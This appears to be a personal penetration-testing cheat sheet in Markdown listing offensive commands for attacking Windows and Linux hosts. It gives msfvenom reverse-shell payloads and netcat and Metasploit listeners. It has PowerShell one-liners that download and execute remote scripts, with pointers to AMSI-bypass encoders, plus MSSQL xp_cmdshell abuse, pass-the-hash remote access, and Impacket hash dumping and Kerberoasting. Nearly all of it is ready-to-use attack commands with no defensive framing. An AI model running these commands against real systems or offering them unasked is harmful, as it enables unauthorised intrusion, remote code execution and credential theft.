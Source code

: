 # Remote Access
```
evil-winrm -i {IP} -u {username} -p {password/NTLM hash}

upload {local_filename} {destination_filename (optional)}
download {remote_filename} {destination_filename (optional)}
```
> evil win-rm
> only for windows pro or windows with RDP!!! >.<
> powershell commands can be executed

# Hosting Servers

## HTTP server
```
python3 -m http.server 80
```
> make sure to be in the directory of the server
> --directory can be used

## SMB server
```
sudo smbserver {share name} -username user -password password

net use \\{IP}\{share name} /user:user password

```
> -smb2support might be needed for some windows

## SMB 
```
smbclient -L //(IP)/{share name} 
get > download {filename}
get > uppload {filename}
smbclient -L //{IP}
```

# Reverse Shells

## Listening port
> port 1234, 4444
```
nc -lvnp 4444
rlwrap nc -lvnp 4444

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```
> rlwrap allows users to use previous commands 


## Msfvenom
>Take note anything with meterpreter is for msfconsole multihandler

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/shell/reverse_tcp LHOST={IP} LPORT=4444 -f dll > reverse.dll
```
> windows .exe & .dll

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f elf >reverse.elf
```
> linux


## Powershell 

# Downloading files
```
powershell.exe IEX (New-Object Net.WebClient).DownloadString("{IP/website url}")
```
> download and execute 
> you can encode using https://amsi.fail/ to bypass

```
IEX((New-Object Net.WebClient).DownloadString("{IP/website url}"))
```
> download
> you can encode using https://raikia.com/tool-powershell-encoder/ to bypass

```
powershell.exe -e 
```
> execute using powershell 
> e.g. powershell.exe -e (encoded stuff)


# check OS version
```
[Environment]::Is64BitProcess
(Get-WmiObject Win32_OperatingSystem).OSArchitecture
```
> checking OS architecture 


## MSSQL
```
enable_xp_cmdshell
EXEC xp+cmdshell '{command}'
```
> summons interactive shell / cmd for MSSQL


## Impacket

# Hash dump
```
secretsdump.py '{username}@{IP}'
```
> hash dump 

# Kerberoasting + hash via SPN
```
GetUserSPNs.py -request -{NETBIOSNAME}-ip {IP} {DOMAIN}/{NAME}:{PASSWORD}
```
> hash dump via keberoasting 

# MS sql logon 
```
mssqlclient.py {username}@{IP}
```
